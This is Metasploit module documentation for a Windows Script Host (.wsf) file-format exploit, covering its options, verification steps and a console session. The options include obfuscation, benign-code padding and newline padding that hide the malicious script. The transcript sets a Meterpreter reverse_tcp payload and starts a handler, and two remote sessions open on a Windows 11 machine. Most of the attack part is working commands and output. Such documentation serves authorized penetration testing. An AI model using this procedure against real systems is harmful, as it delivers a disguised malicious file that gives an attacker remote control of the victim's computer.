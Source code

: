 ## Vulnerable Application

This module creates a Windows Script Host (WSH) Windows Script File (.wsf).

This module has been tested successfully on:

* Microsoft Windows 7 Professional SP1 (x86_64)
* Microsoft Windows 11 Professional 21H2 (x86_64)


## Options

### FILENAME

The WSF file name. (Default: `msf.wsf`).

### OBFUSCATE

Enable VBScript/JScript obfuscation. (Default: `true`)

### SCRIPT_LANGUAGE

The WSH script language to use. (default: `all`)


## Advanced Options

### PrependBenignCode

Prepend several lines of benign code at the start of the VBScript/JScript. (Default: `true`)

### PrependNewLines

Prepend new lines before the malicious VBScript/JScript. (Default: `100`)


## Verification Steps

On the Metasploit host:

1. Start msfconsole
1. Do: `use exploit/windows/fileformat/windows_script_host_wsf`
1. Do: `set script_language [language]`
1. Do: `set filename [filename.wsf]`
1. Do: `set payload [payload]`
1. Do: `set lhost [lhost]`
1. Do: `set lport [lport]`
1. Do: `run`
1. Do: `handler -p [payload] -P [lport] -H [lhost]`

On the target Windows machine:

1. Ensure Windows Security is disabled
1. Ensure Windows Registry `HKCU` and `HKLM` key `SOFTWARE\Microsoft\Windows Script Host\Settings\Enabled` is not present or set to 1
1. Open the `msf.wsf` file
1. If prompted to choose a program to open the file, select Windows Script Host


## Scenarios

### Microsoft Windows 11 Professional 21H2 (x86_64)

```
msf > use exploit/windows/fileformat/windows_script_host_wsf
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/fileformat/windows_script_host_wsf) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/fileformat/windows_script_host_wsf) > set lhost 192.168.200.130 
lhost => 192.168.200.130
msf exploit(windows/fileformat/windows_script_host_wsf) > set lport 4444
lport => 4444
msf exploit(windows/fileformat/windows_script_host_wsf) > set script_language all
script_language => all
msf exploit(windows/fileformat/windows_script_host_wsf) > run
[+] msf.wsf stored at /root/.msf4/local/msf.wsf
msf exploit(windows/fileformat/windows_script_host_wsf) > handler -p cmd/windows/http/x64/meterpreter/reverse_tcp -P 4444 -H 192.168.200.130
[*] Payload handler running as background job 0.
msf exploit(windows/fileformat/windows_script_host_wsf) > 
[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] Sending stage (203846 bytes) to 192.168.200.169
[*] Sending stage (203846 bytes) to 192.168.200.169
[*] Meterpreter session 1 opened (192.168.200.130:4444 -> 192.168.200.169:50301) at 2025-10-05 05:05:43 -0400
[*] Meterpreter session 2 opened (192.168.200.130:4444 -> 192.168.200.169:50302) at 2025-10-05 05:05:44 -0400

msf exploit(windows/fileformat/windows_script_host_wsf) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer        : WIN-11-PRO-X64
OS              : Windows 11 21H2 (10.0 Build 22000).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
